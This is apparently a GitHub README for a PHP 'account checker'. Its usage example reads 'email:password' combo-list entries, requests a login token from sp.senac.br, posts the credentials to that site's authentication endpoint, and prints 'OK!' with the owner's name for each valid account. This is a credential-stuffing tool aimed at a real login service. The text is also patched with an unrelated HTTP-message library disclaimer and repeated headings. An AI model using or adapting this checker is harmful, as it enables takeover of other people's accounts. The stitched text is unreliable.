 Rooquest Checker Acc
================

Note that this is not a HTTP message implementation of its own. It is merely an
interface that describes a HTTP message. See the specification for more details.

Usage
-----
Rooquest Checker Acc
================

This repository is aimed at validating logins in requests


Usage
-----


Usage example below

$checker = new roquest();
$lista = "email@email.com:password"; //value
$conta = $checker->separarLista(array(':','|'),$lista); //multiexplode

$email = $conta[0]; //value1
$senha = $conta[1]; //value2

$url = "https://www.sp.senac.br/o/senac-content-services/geraTokenLogin"; //url to request
$url_2 = "https://www.sp.senac.br/o/senac-content-services/autenticacaoLogin";  //url to request

$headers = array(
'Accept: */*',
'Accept-Encoding: gzip, deflate, br',
'Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
'Connection: keep-alive',
);

$headers_2 = array(
    'Connection: keep-alive',
    'Content-Type: text/plain',
);

$r1 = $checker->requisiçaoGet($url,$headers,'cookie1','',''); // get request
$token = $checker->puxarDados($r1,'"token":"','"','1'); // get values

$data_2 = '{"email":"'.$email.'","senha":"'.$senha.'","token":"'.$token.'"}';

$r2 = $checker->requisiçaoPost($url_2,$headers_2,$data_2,'cookie1','','');

$validar = $checker->validarConta($r2,'"nome":"','incorreto(s)!'); //message to valid account
$nome = $checker->puxarDados($r2,'"nome":"','"','1'); // get values

if($validar == 1){
    echo "OK! $email:$senha -> $nome";
}
if($validar == 0){
    echo "ERROR! $email:$senha -> Usuário ou senha incorretos";
}

]
